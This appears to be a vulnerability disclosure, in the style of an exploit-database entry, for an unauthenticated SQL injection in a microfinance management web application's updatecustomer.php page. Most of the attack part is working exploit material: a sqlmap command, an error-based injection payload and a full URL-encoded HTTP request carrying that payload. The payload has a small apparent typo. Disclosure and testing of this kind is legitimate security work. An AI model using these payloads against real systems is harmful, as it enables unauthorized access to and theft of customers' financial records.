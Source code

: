 Microfinance Management System V1.0 SQL Injection Vulnerability (Unauthenticated)

----------------------
1. Description:

Microfinance Management System allows SQL Injection via parameter 'customer_number' in
/mims/updatecustomer.php. Exploiting this issue could allow an attacker to compromise
the application, access or modify data, or exploit latent vulnerabilities
in the underlying database.

----------------------
2. Proof of Concept:

In Burpsuite intercept the request from the affected page with
'customer_number' parameter and save it like poc.txt Then run SQLmap to extract the
data from the database:

sqlmap.py -r poc.txt --dbms=mysql

----------------------
3. Example payload:

(error-based)

customer_number=-5361' OR 1 GROUP BY CONCAT(0x716a786271,(SELECT (CASE WHEN (6766=6766) THEN 1 ELSE 0 END)),0x7171716a71,FLOOR(RAND(0)*2)) HAVING MIN(0)#),CONCAT(CHAR(95),CHAR(33),CHAR(64),CHAR(52),CHAR(100),CHAR(105),CHAR(108),CHAR(101),CHAR(109),CHAR(109),CHAR(97),0x3a,FLOOR(RAND(0)2))x FROM INFORMATION_SCHEMA.COLLATIONS GROUP BY x)a)+'

----------------------
4. Burpsuite request:

GET /mims/updatecustomer.php?customer_number=-1%27%20and%206%3d3%20or%201%3d1%2b(SELECT%201%20and%20ROW(1%2c1)%3e(SELECT%20COUNT(*)%2cCONCAT(CHAR(95)%2cCHAR(33)%2cCHAR(64)%2cCHAR(52)%2cCHAR(100)%2cCHAR(105)%2cCHAR(108)%2cCHAR(101)%2cCHAR(109)%2cCHAR(109)%2cCHAR(97)%2c0x3a%2cFLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.COLLATIONS%20GROUP%20BY%20x)a)%2b%27 HTTP/1.1 <br>
Host: localhost<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8<br>
Accept-Encoding: gzip, deflate<br>
Accept-Language: en-us,en;q=0.5<br>
Cache-Control: no-cache <br>
Cookie: PHPSESSID=rf50l831r3vn4ho0g6aef189bt<br>
Referer: http://localhost/mims/managecustomer.php <br>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.0 Safari/537.36
